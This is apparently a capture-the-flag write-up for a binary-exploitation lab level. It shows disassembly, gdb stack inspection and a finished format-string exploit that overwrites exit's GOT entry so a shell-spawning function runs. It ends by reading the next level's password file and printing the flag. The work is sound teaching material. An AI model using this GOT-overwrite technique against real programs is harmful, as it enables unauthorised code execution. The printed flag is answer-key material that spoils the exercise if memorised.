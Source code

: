 ## LEVEL 5
---
Most important parts:
```shell
main:
[...]
    0x0804850a <+6>:	call   0x80484c2 <n> ; Call n function without arguments
[...]
```
```shell
n:
[...]
    0x080484c5 <+3>:	sub    $0x218,%esp ; Allocate 536 bytes on the stack
[...]
    0x080484e5 <+35>:	call   0x80483a0 <fgets@plt> ; Call fgets with stdin, 512 and buffer address
    0x080484f3 <+49>:	call   0x8048380 <printf@plt> ; Call printf with buffer address
    0x080484f8 <+54>:	movl   $0x1,(%esp)
    0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
```shell
o:
[...]
    0x080484b1 <+13>:	call   0x80483b0 <system@plt> ; Call system with "/bin/sh"
[...]
```
This level incorporates all the knowledge from the previous levels, and no new concepts are introduced. I will apply everything I have learned so far to solve this level.
In this level, it is evident that the `main` function calls `n`, but to obtain the flag, we need to call `o`.
So, I will employ the same technique as in the previous level, but this time I will overwrite the return value of n instead of a global variable.

First thing I must find is the distance between the buffer and the `$esp`. Luckily for me, the values allocated and the buffer placement are the same since the two last levels and `printf` is call in the same function that `fgets`. So I expect the distance to be 16 bytes. But I need to be sure !
```shell
(gdb) b *0x080484f3
Breakpoint 1 at 0x80484f3
(gdb) r
Starting program: /home/user/level5/level5
AAAA %p %p %p %p

Breakpoint 1, 0x080484f3 in n ()
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
(gdb) n
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Perfect I was right ! Now I need to find the address of the `o` function.
```shell
$ objdump -d level5 | grep '<o>'
080484a4 <o>:
```

Now, the final aspect I need to determine is the location of the return address of `n` on the stack. However, there is a slight issue. If we examine the disassembled code of `n`, we can observe that it calls `exit` before returning. Consequently, even if we modify the return address, the program will exit before returning to `main`. Therefore, I need to explore alternative methods to achieve the desired outcome.
```shell
0x080484f8 <+54>:	movl   $0x1,(%esp)
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
Unfortunatly, we cannot change any of these values. Because none of them are a jump to another address.
```shell
(gdb) disas exit
Dump of assembler code for function exit@plt:
    0x080483d0 <+0>:	jmp    *0x8049838
    0x080483d6 <+6>:	push   $0x28
    0x080483db <+11>:	jmp    0x8048370
End of assembler dump
```
Nice, I may have a clue. The `exit` function is a jump to another address. So I will try to overwrite the address of the `exit` function with the address of the `o` function.
```shell
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) x/a 0x8048370
0x8048370:	0x981c35ff
```
The second address is not useful since it does not point to a valid address. However, the first address refers to a valid location. Therefore, there is a possibility that I can overwrite the value at `0x8049838` with the address of the `o` function.

Now I have all the information I need to write my exploit.
```shell
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d"  + "%4$n"' > /tmp/payload
$ (cat /tmp/payload; echo "cat /home/user/level6/.pass") | ./level5
[...]
512
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```